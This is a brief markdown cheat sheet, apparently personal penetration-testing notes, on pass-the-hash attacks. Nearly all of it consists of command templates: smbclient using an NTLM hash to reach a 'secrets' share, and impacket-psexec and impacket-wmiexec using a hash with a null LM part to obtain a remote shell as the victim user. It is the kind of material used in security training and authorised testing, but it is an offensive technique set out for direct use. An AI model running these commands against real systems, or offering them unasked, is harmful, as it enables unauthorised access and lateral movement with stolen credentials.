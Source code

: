 # PASS THE HASH
#smbclient 
```
smbclient \\\\[ip]\\secrets -U [username] --pw-nt-hash [hash]
```

#psexec
```
# PASS THE HASH

impacket-psexec -hashes 00000000000000000000000000000000:[hash] [user]@[ip]
```
`00000000000000000000000000000000:[some hash]` null value for LM part of hash when applicable 

#wmiexec
```
# gives you shell as user authenticated with

impacket-wmiexec -hashes 00000000000000000000000000000000:[hash] [user]@[ip]

/usr/bin/impacket-wmiexec -hashes :[hash] [user]@[ip]
